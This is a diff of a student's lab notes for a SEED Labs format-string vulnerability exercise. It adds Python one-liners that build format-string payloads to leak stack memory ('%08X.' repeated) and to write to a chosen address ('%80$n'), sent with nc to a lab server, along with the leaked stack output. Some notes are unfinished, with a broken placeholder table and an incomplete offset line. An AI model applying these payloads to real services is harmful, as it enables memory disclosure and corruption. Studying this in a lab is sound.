

Before and after one commit to li-xin-yi/seedlab, a Markdown page: Format-String-Vulnerability/README.MD, 2 parts joined by grey strips. Shown: that part at 85% size. Drawn GitHub-style; pictures changed too: Format-String-Vulnerability/ff9900.png (added); blank space fills up the shorter version.

````diff
--- a/Format-String-Vulnerability/README.MD
+++ b/Format-String-Vulnerability/README.MD
@@ -28,6 +28,7 @@ The address of the 'target' variable: 0x0804a044
 The value of the 'target' variable (before): 0x11223344
 ```
 
+
 On the client VM run
 
 ```bash
@@ -41,17 +42,38 @@ hello
 The value of the 'target' variable (after): 0x11223344
 ```
 
+```
+The ebp value inside myprintf() is: 0xbffff038
+hello
+The value of the 'target' variable (after): 0x11223344
+```
+
 # Task 2
 
 ```bash
-python -c 'print "AAAA"+"%08X."*40' > badfile
+python -c 'print "AAAA"+"%08X."*80' > badfile
 nc -u 10.0.2.4 9090 < badfile
 ```
+Then on the server:
+```
+The ebp value inside myprintf() is: 0xbffff038
+AAAA00000000.00000064.B7FFF918.0804A014.B7FE97A2.B7FFFAD0.BFFFF0E0.00000001.BFFFF038.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.E0B1EB00.00000003.BFFFF0E0.BFFFF6C8.080487E5.BFFFF0E0.BFFFF054.00000010.08048704.00000000.00000010.00000003.82230002.00000000.00000000.00000000.9F810002.0F02000A.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.41414141.
+The value of the 'target' variable (after): 0x11223344
+```
 
-1. 0xbffff0e0+150 = 0xBFFFF176
-2. 0xbffff038+4 = 0xBFFFF03C
-3.
+`A` is `0x41`. So the distance can be considered as 80.
 
+Column A | 0 1 2 3 | 4 5 6 7 | 8 9 A B | C D E F
+---------|----------|---------
+ A1 | B1 | C1
+ A2 | B2 | C2
+ A3 | B3 | C3
+
+1. 0xbffff0e0
+2. 0xbffff038
+3. 0xbffff0e0 + 80
+
+The offset is
 # Task 3
 
 send any illegal format string to the server. the server will crash.
@@ -86,0 +161,7 @@ python -c 'print "\x08\x04\x88\x70%24$s"' > badfile
+![](./ff9900.png)
+
+0xbffff038
+```
+python -c 'print "\x42\xf0\xff\xbf%80$n"' > badfile
+nc -u 10.0.2.4 9090 < badfile
+```
````
Also changed, not shown: other parts of Format-String-Vulnerability/README.MD (+57 -5 lines), 2 other files.
